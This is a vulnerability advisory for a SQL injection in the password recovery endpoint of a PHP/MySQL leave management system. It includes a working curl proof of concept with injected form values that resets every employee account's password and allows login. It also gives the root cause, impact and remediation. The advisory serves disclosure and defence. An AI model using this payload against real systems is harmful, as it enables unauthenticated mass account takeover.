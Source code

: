 Leave Management System Bulk Password Reset SQL Injection — Advisory

- Project: leavesys (PHP/MySQL Leave Management System)
- Severity: Critical
- CWE: CWE-89 (SQL Injection)
- Affected Component: Password recovery endpoint

Summary
- The password recovery flow allows unauthenticated attackers to perform SQL injection, bypass user verification, and reset the password of all accounts in tblemployee to an attacker-chosen value. This has been practically verified with the password pwned123 .
Affected Files & Symbols

- Entry point: `reset.php`
- Verification query: `findCURemployee`
- Password update query: `updatemem`
- DB execution: `executeQuery`
Root Cause

- User inputs user_email and employid are directly concatenated into SQL without parameter binding.
- Verification uses: SELECT * FROM tblemployee WHERE USERNAME='{username}' AND EMPLOYID='{employid}' LIMIT 1 (injectable).
- Update uses: UPDATE tblemployee SET PASSWRD=sha1('{newpass}') WHERE EMPLOYID={id} where {id} is unquoted; with employid=0 OR 1=1 , the WHERE becomes WHERE EMPLOYID=0 OR 1=1 and matches all rows.

Proof of Concept (Windows curl)
```bash
curl -s -D - -o - -X POST http://localhost/leavesys/reset.php -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "user_email=x' OR 1=1 LIMIT 1 #%0A" --data "employid=0 OR 1=1&newpass=pwned123&cpass=pwned123&btnreset=1"
```

- Bulk reset all passwords to pwned123 :
- Verify login using the reset password (matches first row by injected condition):

Observed Result
![alt text](image.png)
![alt text](image-1.png)
- The reset endpoint returns HTTP 200 with a success message and JavaScript redirect to login.php .
- Subsequent login succeeds with pwned123 , establishing a valid session.

Impact
- Unauthenticated mass password reset and full account takeover.
- Compromise of all user accounts and administrative functions.

CVSS v3.1 (Proposed)
- 9.8 — AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

Remediation
- Replace all dynamic SQL with prepared statements (mysqli/PDO) throughout the password recovery and member modules.
- Strictly validate and type-constrain EMPLOYID and USERNAME server-side; never allow boolean expressions from user input in WHERE clauses.
- Ensure identifiers are not interpolated; only bind values via parameters.
- Standardize on mysqli_* or PDO and remove deprecated/legacy API usage.
Disclosure Timeline (Example)

- 2025-10-01: Vulnerability discovered and verified (bulk reset + login).
- 2025-10-01: Advisory prepared for public disclosure; vendor notification pending.
Acknowledgments

- Researcher:px